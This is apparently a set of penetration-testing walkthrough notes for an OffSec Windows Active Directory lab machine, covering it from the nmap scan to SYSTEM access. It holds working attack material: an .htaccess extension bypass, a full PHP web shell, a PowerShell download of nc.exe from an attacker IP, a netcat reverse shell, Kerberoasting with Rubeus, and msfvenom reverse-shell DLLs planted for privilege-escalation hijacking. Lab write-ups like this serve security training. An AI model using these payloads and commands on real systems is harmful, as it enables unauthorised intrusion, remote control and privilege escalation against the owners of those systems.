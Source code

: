_____

>[!INFO]
> IP=192.168.229.46
> Windows

# Nmap

```python
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Access The Event
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
| http-methods:
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-10 11:29:37Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49701/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -5h59m50s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-02-10T11:30:29
|_  start_date: N/A
```

![[Pasted image 20240210123743.png]]

![[Pasted image 20240210123719.png]]


https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst

.phpt

Apache --> upload .htaccess

```bash
echo "AddType application/x-httpd-php .phpt" > .htaccess
```

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

```cmd
powershell -command Invoke-WebRequest -Uri http://192.168.45.250:80/nc.exe -Outfile C:\xampp\htdocs\uploads\nc.exe
```

```cmd
nc.exe 192.168.45.250 4444 -e cmd.exe
```


PowerView.ps1
import-module .\PowerView.ps1
Get-netuser svc_mssql
	serviceprincipalname (kerberoasting)
	TGS (ticket granting service)
.\rubeus.exe kerberoast /nowrap

john brute force

https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1
PS> import-module .\Invoke-RunasCs.ps1
PS> Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "whoami"

DLL Hijacking
SeManageVolumeAbuse (The "SeManageVolumePrivilege" privilege was set to enabled)
https://github.com/xct/SeManageVolumeAbuse
https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public


msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST LPORT -f dll -o Printconfig.dll
overwrite
copy C:\Windows\System32\spool\drivers\x64\3\ 
powershell

$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
$object = [Activator]::CreateInstance($type)



└─$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.49.211 LPORT=6666 -f dll -o tzres.dll
And then, I transferred the DLL payload to "C:\Windows\System32\wbem\".


In the last step, I ran systeminfo to trigger the payload